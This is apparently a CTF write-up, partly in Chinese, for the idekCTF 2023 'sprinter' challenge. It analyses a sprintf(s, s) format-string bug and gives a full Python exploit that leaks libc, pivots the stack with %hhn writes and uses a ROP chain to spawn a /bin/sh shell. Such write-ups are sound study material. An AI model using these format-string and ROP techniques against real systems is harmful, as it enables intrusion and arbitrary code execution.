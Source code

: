 ```yaml
---
name: idekCTF-2023
link: https://ctf.idek.team/
challenges:
- name: sprinter
  tag: fmt-string | sprintf
  solved: true
---
```


## sprinter

#### Analysis

比较麻烦的是 vuln 函数中有 `sprintf(s, s)` 的操作，会导致一些奇怪的行为：

```c
void __fastcall vuln()
{
  char s[264]; // [rsp+0h] [rbp-110h] BYREF
  unsigned __int64 v1; // [rsp+108h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  printf("Enter your string into my buffer, located at %p: ", s);
  fgets(s, 256, stdin);
  if ( !strchr(s, 'n') && strlen(s) <= 38 )
    sprintf(s, s);
}
```

同时通过 strchr 禁用了 `%n` 的操作，也就是没法直接写入，这里思路还是有一点绕的，可以想到如下两种打法：

-   用 `\x00` 截断 `strchr` 和 `strlen` 的检查，再通过 `%c` 之类的操作覆盖掉原来的 `\x00`，通过 `%n` 定向写入完成利用
-   用 `%.7s` 去覆盖 `canary` 进而实现栈溢出 + ROP

#### Exploitation

先来看第一种打法，难点有两处：

-   计算 %(x)c 的 padding 时，其实是在计算 `x*2 - 4 == padding_length`
-   这里固定 `leak_addr&0xff==0x90`，实际上是为了两次栈迁移时都能使目标地址和原先的 rbp 仅有最低位不同
    -   实际上这里需要 `1/16` 的爆破，不过最近在尝试 pwncli，写循环爆破时总是出现奇奇怪怪的问题，故采用如下脚本运行:
```sh
while $1:                                                                                                                                             ─╯
do
./exp.py de ./pwn
done
```

```py
#!/usr/bin/env python3
#-*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from pwncli import *
cli_script()
set_remote_libc('libc.so.6')

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

i2b = lambda c : str(c).encode()
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
debugB = lambda : input("\033[1m\033[33m[ATTACH ME]\033[0m")

# one_gadgets: list = get_current_one_gadget_from_libc(more=False)
CurrentGadgets.set_find_area(find_in_elf=True, find_in_libc=False, do_initial=False)

ru(b"Enter your string into my buffer, located at 0x")
leak_addr = int(ru(b": ", drop=True), 16)
lg("leak_addr")
assert leak_addr&0xff == 0x90           #   for the convience of calculation of the fake rbp
last_rip_addr = leak_addr + 0x118
last_rbp_addr = leak_addr + 0x110
lg("last_rbp_addr")
lg("last_rip_addr")

pop_rdi_ret = 0x0000000000401373
ret_addr    = pop_rdi_ret + 1

debugB()

payload = b"%46c"
#  actually, the padding length should be 46*2-4, and the len(previous_payload)==4, so here we directly use 46*2==0x58
payload = payload.ljust(0x58, b"\x00")  #   hijack rbp to controllable address
payload += b"%29$hhn"
payload = payload.ljust(0xad, b"a")     #   set rip to gadget "leave; ret;"
payload += b"%30$hhn"
payload = payload.ljust(0xc0, b"a")
payload += p64(last_rbp_addr)
payload += p64(last_rip_addr)
payload += p64(pop_rdi_ret)
payload += p64(elf.got['printf'])
payload += p64(elf.plt['printf'])
payload += p64(ret_addr)
payload += p64(elf.sym['main'])
sl(payload)

libc_base = u64_ex(rn(6)) - libc.sym.printf
lg("libc_base")

ru(b"Enter your string into my buffer, located at 0x")
leak_addr = int(ru(b": ", drop=True), 16)
lg("leak_addr")
last_rip_addr = leak_addr + 0x118
last_rbp_addr = leak_addr + 0x110
lg("last_rbp_addr")
lg("last_rip_addr")

#  now that we've got libc base, it's quite easy to repeat the above code
payload = b"%22c"
payload = payload.ljust(0x28, b"\x00")  #   hijack rbp to controllable address
payload += b"%29$hhn"
payload = payload.ljust(0xad, b"a")     #   set rip to gadget "leave; ret;"
payload += b"%30$hhn"
payload = payload.ljust(0xc0, b"a")
payload += p64(last_rbp_addr)
payload += p64(last_rip_addr)
payload += p64(pop_rdi_ret)
payload += p64(libc_base + next(libc.search(b"/bin/sh\x00")))
payload += p64(libc_base + libc.sym.system)
sl(payload)

ia()
```

---

## coroutine


